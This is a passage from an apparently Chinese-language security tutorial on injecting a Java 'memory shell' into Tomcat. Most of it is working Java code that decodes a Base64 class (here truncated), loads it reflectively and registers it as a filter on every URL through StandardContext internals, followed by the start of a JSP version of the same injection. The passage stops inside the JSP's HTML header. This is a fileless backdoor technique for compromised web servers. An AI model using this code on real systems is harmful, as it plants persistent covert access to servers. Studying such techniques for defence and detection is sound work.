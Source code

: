     
                //将Filter对象通过反射实现加载
                ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
                //2、在Java中，可以使用defineClass方法将一个类动态地注入到当前的JVM中，这里将filter类注入进去
                Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
                defineClass.setAccessible(true);
                BASE64Decoder base64Decoder = new BASE64Decoder();
                byte[] code = base64Decoder.decodeBuffer("yv66vgAAADQAWg....");
                defineClass.invoke(classLoader,code, 0, code.length);
    
                //3、添加filterDef
                System.out.println(Class.forName("FilterDemo").getName());
                Filter filterDemo = (Filter) Class.forName("FilterDemo").newInstance();
                FilterDef filterDef = new FilterDef();
                filterDef.setFilter(filterDemo);
                filterDef.setFilterName("FilterDemo");
                standardContext.addFilterDef(filterDef);
    
                //4、添加filterMap
                FilterMap filterMap = new FilterMap();
                filterMap.setFilterName("FilterDemo");
                filterMap.addURLPattern("/*");
                standardContext.addFilterMap(filterMap);
    
                //添加到standardContext的filterConfigs中
                //反射获取filterConfigs
                //由于ApplicationFilterConfig经Final修饰，且构造方法为静态方法，无法通过new实例化，需通过反射获取ApplicationFilterConfig构造方法并实例化后添加入filterConfigs
                Field filterConfigs = standardContext.getClass().getDeclaredField("filterConfigs");
                filterConfigs.setAccessible(true);
                HashMap hashMap = (HashMap) filterConfigs.get(standardContext);
                Constructor<?> declaredConstructor = ApplicationFilterConfig.class.getDeclaredConstructors()[0];
                declaredConstructor.setAccessible(true);
                hashMap.put("FilterDemo",declaredConstructor.newInstance(standardContext,filterDef));
    
                PrintWriter out = response.getWriter();
                out.println("over");
    
            } catch (Exception e) {
                throw new RuntimeException(e);
            }
        }
    }
    

jsp实现

    <%@ page language="java" %>
    <%@ page import="javax.servlet.http.HttpServletRequest" %>
    <%@ page import="javax.servlet.http.HttpServletResponse" %>
    <%@ page import="java.lang.reflect.Field" %>
    <%@ page import="org.apache.catalina.core.ApplicationContext" %>
    <%@ page import="org.apache.catalina.core.StandardContext" %>
    <%@ page import="java.lang.reflect.Method" %>
    <%@ page import="sun.misc.BASE64Decoder" %>
    <%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
    <%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
    <%@ page import="java.util.HashMap" %>
    <%@ page import="java.lang.reflect.Constructor" %>
    <%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
    <%@ page import="java.io.IOException" %>
    <html>
    <head>
        <title>Get Request Object in JSP</title>
    </head>
    <body>
    <h1>Get Request Object in JSP</h1>